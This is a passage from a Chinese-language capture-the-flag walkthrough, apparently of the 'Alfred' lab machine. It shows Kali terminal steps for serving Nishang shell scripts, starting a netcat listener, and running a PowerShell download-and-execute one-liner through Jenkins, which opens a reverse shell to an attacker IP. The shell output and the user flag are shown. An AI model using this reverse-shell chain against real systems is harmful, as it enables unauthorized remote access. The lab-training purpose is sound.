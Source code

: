    ```
      ┌──(kali㉿kali)-[~]
      └─$ cd /usr/share/nishang/Shells                                       
                                                                            ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
      └─$ ls
      Invoke-ConPtyShell.ps1  Invoke-JSRatRundll.ps1  Invoke-PoshRatHttps.ps1    Invoke-PowerShellTcpOneLineBind.ps1  Invoke-PowerShellTcp.ps1         Invoke-PowerShellUdp.ps1  Invoke-PsGcatAgent.ps1  Remove-PoshRat.ps1
      Invoke-JSRatRegsvr.ps1  Invoke-PoshRatHttp.ps1  Invoke-PowerShellIcmp.ps1  Invoke-PowerShellTcpOneLine.ps1      Invoke-PowerShellUdpOneLine.ps1  Invoke-PowerShellWmi.ps1  Invoke-PsGcat.ps1       
            
      ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
      └─$ python3 -m http.server 8000
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
      ```
   3. 攻击机监听：

      ```
      ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
      └─$ nc -nlvp 1234
      listening on [any] 1234 ...
      ```

   4. 修改payload:

      ```powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.61.123:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.61.123 -Port 1234```

   5. Jenkins执行命令：

      ![Alt text](/style/image/image-283.png)
      ![Alt text](/style/image/image-284.png)

   6. 监听端口获得反向shell:

      ```
      ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
      └─$ nc -nlvp 1234
      listening on [any] 1234 ...
      connect to [10.11.61.123] from (UNKNOWN) [10.10.251.108] 49262
      Windows PowerShell running as user bruce on ALFRED
      Copyright (C) 2015 Microsoft Corporation. All rights reserved.

      PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
      alfred\bruce
      PS C:\Program Files (x86)\Jenkins\workspace\project> cd \users\bruce
      PS C:\users\bruce> cd desktop
      PS C:\users\bruce\desktop> dir


         Directory: C:\users\bruce\desktop


      Mode                LastWriteTime     Length Name                              
      ----                -------------     ------ ----                              
      -a---        10/25/2019  11:22 PM         32 user.txt       
      ```
      此时可获取flag: user.txt

## 切换交互shell(Materpreter shell)

tips: 这里重启过目标，target ip：10.10.178.7
   ```